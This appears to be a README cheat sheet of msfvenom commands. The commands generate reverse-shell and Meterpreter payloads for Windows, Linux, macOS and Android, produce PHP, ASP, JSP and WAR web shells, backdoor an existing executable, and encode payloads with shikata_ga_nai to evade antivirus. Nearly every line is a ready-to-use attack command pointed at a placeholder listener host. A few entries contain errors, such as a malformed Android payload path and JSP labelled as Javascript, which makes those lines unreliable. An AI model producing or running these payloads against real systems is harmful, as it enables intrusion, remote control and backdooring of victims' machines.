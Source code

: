 <h1 align='centre'> Msfvenom-Cheat-Sheet</h1>
<p align='centre'>
  A list of msfvenom commands
</p>

## Binaries
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Creates a simple TCP Payload for Windows |
|msfvenom -p windows/meterpreter/reverse_http LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Creates a simple HTTP Payload for Windows |
|msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f elf > example.elf | Creates a simple TCP Shell for Linux |
|msfvenom -p osx/x86/shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f macho > example.macho | Creates a simple TCP Shell for Mac |
|msfvenom -p android/meterpreter/reverse/tcp LHOST=(Your IP/DNS) LPORT=(Your Port) R > example.apk | Creats a simple TCP Payload for Android |

## Web Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p php/meterpreter_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f raw > example.php | Creats a Simple TCP Shell for PHP |
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f asp > example.asp | Creats a Simple TCP Shell for ASP |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f raw > example.jsp | Creats a Simple TCP Shell for Javascript |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f war > example.war | Creats a Simple TCP Shell for WAR |

## Windows Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -l encoders | Lists all avalaible encoders|
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Binds an exe with a Payload (Backdoors an exe) | 
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -e x86/shikata_ga_nai -b '\x00' -i 3 -f exe > example.exe | Creates a simple TCP payload with shikata_ga_nai encoder |
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe > example.exe | Binds an exe with a Payload and encodes it |

